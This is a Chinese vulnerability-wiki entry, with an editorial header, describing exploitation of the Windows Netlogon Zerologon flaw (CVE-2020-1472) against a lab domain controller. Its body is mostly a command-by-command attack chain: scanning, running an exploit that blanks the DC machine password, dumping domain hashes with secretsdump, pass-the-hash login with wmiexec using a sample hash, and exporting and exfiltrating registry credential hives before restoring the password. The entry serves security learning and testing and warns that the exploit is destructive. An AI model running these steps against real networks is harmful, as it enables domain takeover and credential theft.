








# （CVE-2020-1472）Windows Zerologon域提权漏洞

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Windows Domain Controller Netlogon
- 文献类型：Zerologon检测/利用/恢复实验
- 版本、权限及部署边界：域控WindowsServer2008R2SP1x64测试、MS-NRPC远程可达；Python3.7+，声称impacket0.9.21
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 归本地提权目录错误，实际是远程域控Netlogon；主标题仅CVE应补产品与远程认证边界
2. 明确区分扫描与重置DC机器密码的破坏性利用，并有恢复节，这是需保留的关键风险信息；恢复是否完全需验证域健康而非单脚本成功
3. 依赖说必须0.9.21，安装命令却直接Git默认分支/--depth=1，不固定版本，步骤不可稳定重现
4. 示例hash长度看似被截短，账户/域值依赖原实验环境，不能当可直接复用；Kernelhub.txt来源路径不完整
5. 恢复涉及导出注册表敏感hive，需说明隔离测试/安全清理与恢复验证；当前未执行任何操作
6. MSRC与Secura/dirkjanm/risksense来源较完整，缺修复阶段/强制模式时间与精确KB，截图未视检

### 操作风险

明确区分扫描与重置DC机器密码的破坏性利用，并有恢复节，这是需保留的关键风险信息；恢复是否完全需验证域健康而非单脚本成功

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1472>
- 原文参考链接（未重新核验）：<https://github.com/SecureAuthCorp/impacket`，下面是通用方法>
- 原文参考链接（未重新核验）：<https://github.com/SecureAuthCorp/impacket>
- 原文参考链接（未重新核验）：<https://github.com/SecuraBV/CVE-2020-1472>
- 原文参考链接（未重新核验）：<https://github.com/dirkjanm/CVE-2020-1472>
- 原文参考链接（未重新核验）：<https://github.com/risksense/zerologon>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

## 描述

攻击者使用Netlogon远程协议（MS-NRPC）建立与域控制器的易受攻击的Netlogon安全通道连接时，将存在特权提升漏洞。攻击者可以利用漏洞进行远程修改密码等操作

## 影响版本

| Product                                                      | Version | Update | Edition | Tested |
| ------------------------------------------------------------ | ------- | ------ | ------- | ------ |
| Windows Server 2008 R2 for x64-based Systems Service Pack 1  |         |        |         | ✔️      |
| Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation) |         |        |         | ✔️      |
| Windows Server 2012                                          |         |        |         |        |
| Windows Server 2012 (Server Core installation)               |         |        |         |        |
| Windows Server 2012 R2                                       |         |        |         |        |
| Windows Server 2012 R2 (Server Core installation)            |         |        |         |        |
| Windows Server 2016                                          |         |        |         |        |
| Windows Server 2016 (Server Core installation)               |         |        |         |        |
| Windows Server 2019                                          |         |        |         |        |
| Windows Server 2019 (Server Core installation)               |         |        |         |        |
| Windows Server, version 1903 (Server Core installation)      |         |        |         |        |
| Windows Server, version 1909 (Server Core installation)      |         |        |         |        |
| Windows Server, version 2004 (Server Core installation)      |         |        |         |        |

## 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1472
```

## 利用方式

> 注意：EXP脚本会重置域控机器的密码！！！不要瞎鸡儿乱用！！！！！！！！

测试机器Windows Server 2008 R2 SP1 X64 ，并且设置环境为域控机器

[](.resource/CVE-2020-1472WindowsZerologon%E5%9F%9F%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/CVE-2020-1472_dc-server.png)（原外链图片暂未找回，点击查看已存本地图；原链接：` https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_dc-server.png?raw=true `）

由上图可知：

- 域为->ascotbe.com
- 计算机名为->dc
- 域控ip->192.168.183.171

使用前环境配置，需要Python3.7+的版本，如果之前有安装过`impacket`的python包的话（比如kali）需要卸载了在重新安装`0.9.21`这个版本的包，快捷语句`python3 -m pip install git+https://github.com/SecureAuthCorp/impacket`，下面是通用方法

```
python3 -m pip install -r Kernelhub.txt
#如果嫌弃下载慢项目上有下载好的解压后即可用
git clone --depth=1 https://github.com/SecureAuthCorp/impacket
```

> 扫描脚本

该脚本用于测试机器是否存在漏洞

```
#Usage: CVE-2020-1472_Scan.py <dc-name> <dc-ip>
python3 CVE-2020-1472_Scan.py dc 192.168.183.171
```

[](.resource/CVE-2020-1472WindowsZerologon%E5%9F%9F%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/CVE-2020-1472_scan.png)（原外链图片暂未找回，点击查看已存本地图；原链接：` https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_scan.png?raw=true `）

> 利用脚本

该脚本会使用后会把密码重置为空！！乱用容易对照成损失！！

```
#Usage: CVE-2020-1472_Exploit.py <dc-name> <dc-ip>
python3 CVE-2020-1472_Exploit.py dc 192.168.183.171
```

[](.resource/CVE-2020-1472WindowsZerologon%E5%9F%9F%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/CVE-2020-1472_exp.png)（原外链图片暂未找回，点击查看已存本地图；原链接：` https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_exp.png?raw=true `）

接着进入下载好的`impacket`项目，使用空密码登录

```
cd impacket/examples/
#Usage: secretsdump.py <dc>/<dc-name>\$@<dc-ip>
python3 secretsdump.py ascotbe.com/dc\$@192.168.183.171 -no-pass
```

[](.resource/CVE-2020-1472WindowsZerologon%E5%9F%9F%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/CVE-2020-1472_secretsdump.png)（原外链图片暂未找回，点击查看已存本地图；原链接：` https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_secretsdump.png?raw=true `）

接着利用hash进行登录

```
#Usage: wmiexec.py -hashes <user-hash> <dc>/<user-name>@<dc-ip>
python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:45280efa2300182b4f7fdc2cee182149  ascotbe.com/administrator@192.168.183.171
```

[](.resource/CVE-2020-1472WindowsZerologon%E5%9F%9F%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/CVE-2020-1472_wmiexec.png)（原外链图片暂未找回，点击查看已存本地图；原链接：` https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_wmiexec.png?raw=true `）

> 还原密码

保存密码后下载到本地，接着删除域控上的文件

```
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
get system.save
get sam.save
get security.save
del system.save
del sam.save
del security.save
```

[](.resource/CVE-2020-1472WindowsZerologon%E5%9F%9F%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/CVE-2020-1472_hash.png)（原外链图片暂未找回，点击查看已存本地图；原链接：` https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_hash.png?raw=true `）

接着进行解密

```
python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```

[](.resource/CVE-2020-1472WindowsZerologon%E5%9F%9F%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/CVE-2020-1472_decrypt_hash.png)（原外链图片暂未找回，点击查看已存本地图；原链接：` https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_decrypt_hash.png?raw=true `）

可以看到这是之前修改之前的密码，接着回到桌面使用脚本恢复密码

```
#Usage: CVE-2020-1472_RestoreOriginalPassword.py <dc-name> <dc-ip> <dc-original-hash>
python3 CVE-2020-1472_RestoreOriginalPassword.py dc 192.168.183.171 d4ac5a73fd3f13dfd9d6de036a9e99a2
```

[](.resource/CVE-2020-1472WindowsZerologon%E5%9F%9F%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E/media/CVE-2020-1472_restore_original_password.png)（原外链图片暂未找回，点击查看已存本地图；原链接：` https://github.com/Ascotbe/Random-img/blob/master/WindowsKernelExploits/CVE-2020-1472_restore_original_password.png?raw=true `）

#### 项目来源

- 扫描脚本:[SecuraBV](https://github.com/SecuraBV/CVE-2020-1472)
- 利用脚本:[dirkjanm](https://github.com/dirkjanm/CVE-2020-1472)
- 恢复脚本:[risksense](https://github.com/risksense/zerologon)

> https://github.com/Ascotbe/Kernelhub/tree/master/CVE-2020-1472

